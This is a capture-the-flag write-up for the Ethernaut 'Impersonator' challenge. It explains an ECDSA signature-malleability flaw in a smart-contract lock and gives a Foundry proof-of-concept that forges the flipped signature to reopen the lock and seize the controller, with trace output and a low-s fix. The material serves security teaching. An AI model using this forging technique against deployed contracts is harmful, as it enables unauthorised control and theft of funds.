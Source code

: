 # Impersanator Challenge(ethernaut Challenge)


### Challenge Overview:
SlockDotIt’s new product, ECLocker, integrates IoT gate locks with Solidity smart contracts, utilizing Ethereum ECDSA for authorization. When a valid signature is sent to the lock, the system emits an Open event, unlocking doors for the authorized controller. SlockDotIt has hired you to assess the security of this product before its launch. Can you compromise the system in a way that anyone can open the door?

***Vulnerability***:
The smart contract is vulnerable to a signature malleability attack due to the lack of checks on the s value of an ECDSA signature. This allows an attacker to generate an alternative but still valid version of a signature that can be used to bypass signature uniqueness checks or replay restricted actions.

**Cause**:

ECDSA signatures (r, s, v) have two valid versions for every message:

   > (r, s, v)
   > (r, n - s, 27 ⬌ 28)
Where:

n is the secp256k1 curve order:
0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141

The contract does not enforce that s is in the lower half of the curve (s <= n / 2). As a result, two distinct but valid signatures can exist for the same message hash, and both will pass ecrecover.

### VulnerabilityCode:
```solidity

function changeController(
        uint8 v,
        bytes32 r,
        bytes32 s,
        address newController
    ) external {
        _isValidSignature(v, r, s);
        controller = newController;
        emit ControllerChanged(newController, block.timestamp);
    }
     
     function _isValidSignature(
        uint8 v,
        bytes32 r,
        bytes32 s
    ) internal returns (address) {
        address _address = ecrecover(msgHash, v, r, s);
        // require(_address == controller, InvalidController());
        if (_address != controller) {
            revert InvalidController();
        }

        bytes32 signatureHash = keccak256(
            abi.encode([uint256(r), uint256(s), uint256(v)])
        );
        require(!usedSignatures[signatureHash], "signer alreadyused");

        usedSignatures[signatureHash] = true;

        return _address;
    }

```
### Impact:

An attacker can:

1.Reuse a signature by creating a malleable version, bypassing replay protection (e.g., usedSignatures[keccak256(sig)] = true)

2.Impersonate a signer and perform unauthorized actions like changing contract ownership or draining funds.

3.Take over the controller in this specific case by using a malleable version of a previously used signature.

### Proof of code:
```solidity
contract ECLockerTest is Test {
    Impersonator public imp;
    address public nk_signer;
    uint256 private nk_signerPk;
    bytes32 public msgHash;
    uint256 public lockId;
    address public controller_nk;

    function setUp() public {
        nk_signerPk = 0xA11CE;
        nk_signer = vm.addr(nk_signerPk);
        imp = new Impersonator(0); //deploy the contract impersonator
        vm.startPrank(imp.owner());
        lockId = 1;

        //  Ethereum Signed Message Hash
        msgHash = keccak256(
            abi.encodePacked(
                "\x19Ethereum Signed Message:\n32",
                bytes32(lockId)
            )
        );

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(nk_signerPk, msgHash);
        bytes memory signature = abi.encodePacked(r, s, v);
        imp.deployNewLock(signature); //deploy the lock with Ethereum signed hash
        vm.stopPrank();
    }

    function testSignatureMalleability() public {
        ECLocker locker = imp.lockers(0); //EcLocker instance

        // Sign message again to get original signature
        (uint8 v1, bytes32 r1, bytes32 s1) = vm.sign(nk_signerPk, msgHash);

        // Duplicate signatres s in ECDSA graph: s2 = n - s1
        uint256 n = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141;
        bytes32 s2 = bytes32(n - uint256(s1));

        // Try using both valid signatures

        // First usage (original signature)
        vm.prank(nk_signer);
        locker.open(v1, r1, s1);
        // Second usage (malicious signature)
        // This should fail in a secure contract
        uint8 v2 = v1 == 27 ? 28 : 27;

        vm.prank(nk_signer);
        locker.open(v2, r1, s2); //  this should fail in a secure contract

        locker.changeController(v2, r1, s2, nk_signer); // this should fail in a secure contract
        assertEq(
            locker.controller(),
            controller_nk,
            "Controller should be changed"
        );
    }
}

```
Even though the original signature has already been used,but ECDSA graph have two signatures this is vulnerability

### TestCase:
```yaml

an 1 test for test/Impersnator.t.sol:ECLockerTest
[PASS] testSignatureMalleability() (gas: 88082)
Traces:
  [88082] ECLockerTest::testSignatureMalleability()
    ├─ [5140] Impersonator::lockers(0) [staticcall]
    │   └─ ← [Return] ECLocker: [0x104fBc016F4bb334D775a19E8A6510109AC63E00]
    ├─ [0] VM::sign("<pk>", 0xc9798da569c6ded6bd4b17373ef332b7c84d68cdec3f420f583dcd7b441ae31d) [staticcall]
    │   └─ ← [Return] 28, 0x803c3d50f6c6045271cffbbfa6321ffca565acf7e929e7c414a32ea755347241, 0x7c93e8acd34551d042421ba504a4e96c0e216884681a0e52f65e770894342c90
    ├─ [0] VM::prank(0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7)
    │   └─ ← [Return]
    ├─ [31965] ECLocker::open(28, 0x803c3d50f6c6045271cffbbfa6321ffca565acf7e929e7c414a32ea755347241, 0x7c93e8acd34551d042421ba504a4e96c0e216884681a0e52f65e770894342c90)
    │   ├─ [3000] PRECOMPILES::ecrecover(0xc9798da569c6ded6bd4b17373ef332b7c84d68cdec3f420f583dcd7b441ae31d, 28, 58002478631855971539320367201591076334196138846330609933668613418806804771393, 56348125607360146780372420456742903897957838190118489022110830123524616891536) [staticcall]
    │   │   └─ ← [Return] 0x000000000000000000000000e05fcc23807536bee418f142d19fa0d21bb0cff7
    │   ├─ emit Open(opener: 0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7, timestamp: 1)
    │   └─ ← [Stop]
    ├─ [0] VM::prank(0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7)
    │   └─ ← [Return]
    ├─ [29965] ECLocker::open(27, 0x803c3d50f6c6045271cffbbfa6321ffca565acf7e929e7c414a32ea755347241, 0x836c17532cbaae2fbdbde45afb5b1692ac8d7462472e91e8c973e7843c0214b1)
    │   ├─ [3000] PRECOMPILES::ecrecover(0xc9798da569c6ded6bd4b17373ef332b7c84d68cdec3f420f583dcd7b441ae31d, 27, 58002478631855971539320367201591076334196138846330609933668613418806804771393, 59443963629956048643198564551945003954879726088956415360494333017993544602801) [staticcall]
    │   │   └─ ← [Return] 0x000000000000000000000000e05fcc23807536bee418f142d19fa0d21bb0cff7
    │   ├─ emit Open(opener: 0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7, timestamp: 1)
    │   └─ ← [Stop]
    └─ ← [Stop]

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.77ms (1.80ms CPU time)

Ran 1 test suite in 15.17ms (4.77ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
nithin@ScateR:~/SCATERLABs/CTFs/EthernautChallenges$ 
```



### Recommendation :
Add a check to ensure the signature's s value is in the lower half order of the curve.
```solidity
require(
    uint256(s) <= 0x7FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF5D576E7357A4501DDFE92F46681B20A0,
    "Invalid s value"
);

```
Also ensure v is either 27 or 28:
```solidity
require(v == 27 || v == 28, "Invalid v value");

```
This ensures all accepted signatures are in canonical form, which eliminates malleability.

